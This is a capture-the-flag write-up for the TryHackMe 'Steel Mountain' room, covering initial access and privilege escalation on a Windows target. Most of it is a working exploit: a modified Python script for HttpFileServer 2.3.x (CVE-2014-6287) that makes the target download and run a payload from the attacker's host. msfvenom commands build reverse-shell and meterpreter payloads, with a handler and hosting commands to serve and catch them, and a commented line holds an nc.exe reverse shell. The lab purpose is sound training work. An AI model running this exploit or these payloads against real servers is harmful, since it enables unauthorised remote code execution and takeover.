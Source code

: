 # Steel Mountain

{% embed url="https://tryhackme.com/room/steelmountain" %}

{% embed url="https://05t3.github.io/posts/Steel-Mountain/" %}

{% embed url="https://medium.com/@weifeng.c01/tryhackme-ctf-steel-mountain-1ac394c030dd" %}

{% embed url="https://blog.razrsec.uk/steel-mountain-walkthrough/" %}

### Initial access

...

#### Retrieving shell (without metasploit)

_**Modified PoC**_

{% embed url="https://www.exploit-db.com/exploits/39161" %}

{% code title="39161.py" overflow="wrap" %}
```python
#!/usr/bin/python
# Exploit Title: HttpFileServer 2.3.x Remote Command Execution
# Google Dork: intext:"httpfileserver 2.3"
# Date: 04-01-2016
# Remote: Yes
# Exploit Author: Avinash Kumar Thapa aka "-Acid"
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287
# Description: You can use HFS (HTTP File Server) to send and receive files.
#	       It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
#	       It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux. 
 
#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!


import urllib2
import sys

try:
	def script_create():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

	def execute_script():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

	def nc_run():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

	ip_addr = "xxx.xxx.xxx.xxx" #local IP address
	local_port = "8888" # Local Port number
	
	rev_shell_payload_port = "xxxx" # replace with the port number to serve the payload (on the address identified by the "ip_addr" variable declared above)
	rev_shell_payload = "xxxx" # refer below
	
	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%3A"+rev_shell_payload_port+"%2F"+rev_shell_payload+"%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5C"+rev_shell_payload+"%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
	save= "save|" + vbs
	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
	exe= "exec|"+vbs2

	# vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
	vbs3 = "C%3A%5CUsers%5CPublic%5C"+rev_shell_payload

	exe1= "exec|"+vbs3
	script_create()
	execute_script()
	nc_run()
except:
	print """[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script"""
	
            
```
{% endcode %}

{% code title="Execute the script (Python 2)" overflow="wrap" %}
```sh
$ python2 39161.py <target> <port>
```
{% endcode %}

Note that we have to replace the `rev_shell_payload` variable in the script above, to the name of the generated payload from **msfvenom**, wit the `.exe` or `.cmd` extensions.

> In general, the generated payloads by msfvenom (refer below) with the `.exe` works to provide us with a shell. However, a payload with `.cmd` may not work as expected.

_**Windows reverse TCP payload**_

{% code overflow="wrap" %}
```sh
$ msfvenom -p windows/shell/reverse_tcp LHOST=<attacker_addr> LPORT=8888 -f exe -o <output>.exe
```
{% endcode %}

_**Windows (Powershell) reverse TCP payload**_

{% code overflow="wrap" %}
```sh
$ msfvenom -p cmd/windows/powershell/powershell_reverse_tcp LHOST=<attacker_addr> LPORT=8888 -o <output>.cmd
```
{% endcode %}

_**meterpreter payload**_

{% code overflow="wrap" %}
```sh
$ msfvenom -p windows/x64/meterpreter_reverse_tcp -f exe LHOST=10.4.10.179 LPORT=8888 -o <output>.exe
```
{% endcode %}

{% code title="host web server to load payload file" overflow="wrap" %}
```sh
$ python3 -m http.server <port> # the value of <port> should match the "rev_shell_payload_port" variable in the script
```
{% endcode %}

#### Catch shell/meterpreter&#x20;

```sh
msf6> use multi/handler
msf6> set payload xxxx
msf6> set lhost xxxx
msf6> set lport xxxx

msf6> run
```

### Privilege escalation

#### Enumeration

1. PowerUp.ps1 (PowerSploit)

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1" %}

2. WinPEAS

{% embed url="https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS" %}

After enumeration, we discover that there is a particular service named **AdvancedSystemCareService9** with an unquoted service path, and the `CanRestart` parameter set to **True**. We can use various tools to discover the name of the vulnerable service.

#### Getting more information about services

{% code overflow="wrap" %}
```powershell
PS> Get-Service *
PS> Get-CimInstance Win32_Service -Filter *
PS> sc qc <servicename>
```
{% endcode %}

```powershell
C:\> icacls C:\
C:\> icacls "C:\Program Files.exe"
C:\> icacls "C:\Program Files (x86)\IObit"
C:\> icacls "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
```

Now, we can exploit the found service. Refer to the write-up below for more information:

{% embed url="https://medium.com/@weifeng.c01/tryhackme-ctf-steel-mountain-1ac394c030dd" %}
